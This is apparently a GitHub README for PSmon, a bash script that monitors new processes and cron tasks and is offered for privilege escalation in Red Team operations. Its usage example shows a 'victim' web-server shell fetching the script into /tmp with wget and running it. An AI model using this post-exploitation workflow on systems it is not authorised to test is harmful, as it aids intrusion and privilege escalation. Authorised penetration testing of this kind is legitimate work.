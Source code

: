 # PSmon

Bash script to monitor new processes and cron tasks that run at regular intervals of time.

(Very useful tool to escalate privileges in Red Team operations)

```bash
www-data@victim:~$ cd /tmp
www-data@victim:~$ wget https://raw.githubusercontent.com/d4t4s3c/PSmon/main/PSmon.sh
www-data@victim:~$ chmod +x PSmon.sh
www-data@victim:~$ ./PSmon.sh
```
**Screenshot**

![](/screenshot/00001.png)
